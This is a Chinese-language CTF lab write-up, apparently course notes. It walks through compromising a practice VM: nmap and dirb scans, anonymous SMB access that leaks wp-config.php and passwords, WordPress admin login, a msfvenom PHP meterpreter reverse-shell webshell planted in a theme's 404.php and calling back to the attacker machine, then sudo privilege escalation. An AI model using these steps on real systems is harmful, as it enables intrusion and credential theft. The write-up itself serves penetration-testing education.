51CTO的网课，本篇针对SMB协议弱点分析，登录共享目录查找敏感文件；针对HTTP协议弱点分析，寻找突破点，登录后台上传webshell，提权获取flag。

本篇使用工具nmap、dirb、metasploit、webshell。

<!-- more -->

# 使用命令

## nmap

* 探测靶场开放的服务与服务的版本
``` bash
-- nmap -sV 靶场IP地址
```

* 探测靶场全部信息
``` bash
-- nmap -A -v -T4 靶场IP地址
```

## dirb

* 挖掘靶场网站敏感信息

``` bash
dirb 靶场IP地址
```

## smbclient

* 空口令/弱口令尝试登录，获取敏感文件

``` bash
smbclient -L 靶机IP
smbclient '\\靶机IP\share'
get 敏感文件
```

* 针对SMB协议远程溢出漏洞进行分析

``` bash
searchsploit samba版本号
```

## mysql

* 登录

``` bash
mysql -h 靶机IP -u Admin -p 口令
```

## metasploit

* 启动监听

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机端口
>run
```

## webshell

* 生成webshell

``` bash
#制作webshell
msfvenom -p php/meterpreter/reverse_tcp lhost=攻击机IP lport=监听端口 -f raw > /root/Desktop/shell.php
```

* 上传webshell

``` bash
#使用找到的敏感信息登录后台，上传并执行webshell
#获得反弹的shell--WordPress上传theme 404.php
http://靶机IP/wordpress/wp-content/themes/twentyfifteen/404.php
```

## shell优化

* 优化会话显示带用户、目录的命令行界面

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口、系统信息等：

``` bash
nmap -sV 192.168.1.113
nmap -A -v -T4 192.168.1.113
```





2. 访问smb服务，搜集敏感信息，share共享文件夹里可能有敏感信息：

``` bash
smbclient -L 192.168.1.113
smbclient '\\192.168.1.113\share'
get 敏感文件
```



3. 都查看一下，找到两个敏感文件`\share\deets.txt`和`\share\wordpress\wp-config.php`：





4. 利用搜集到的秘钥尝试连接mysql和ssh，均被拒绝：



5. smb协议也可以用metasploit搜索可利用漏洞，这里无可利用漏洞：

``` bash
searchsploit Samba smbd 3.X - 4.X
searchsploit Samba smbd 4.3.11-Ubuntu
```



6. dirb搜索目录，查找可利用文件，找到了登录后台：

``` bash
dirb http://192.168.1.113
```



7. 尝试使用前面的mysql密码成功登录：



8. 生成反弹webshell脚本：

``` bash
msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.114 lport=4444 -f raw > /root/Desktop/shell.php
```



9. metaspolit开启监听：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.1.114
>set lport 4444
>run
```



10. 网页后台上传webshell：

``` bash
#使用找到的敏感信息登录后台，上传并执行webshell
#获得反弹的shell--WordPress上传theme 404.php
http://靶机IP/wordpress/wp-content/themes/twentyfifteen/404.php
```



11. 访问404网页，可以看到反弹shell成功：



12. 进入shell，优化输入，尝试切换root用户，失败：

``` bash
python -c "import pty;pty.spawn('/bin/bash')"
```



13. 查看用户组，发现**togie**在`/home`目录下，是一个用户：

``` bash
cat /etc/passwd
```



14. 切换到用户**togie**，密码是前面第3步搜集到的`12345`，查看权限，提权：

``` bash
su togie
sudo -l
sudo su
```



15. 提权成功，切换到根目录，拿到flag：



# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)
2. [3-1CTF夺旗入门教程--SMB信息泄露](https://blog.csdn.net/m0_46622606/article/details/105107489)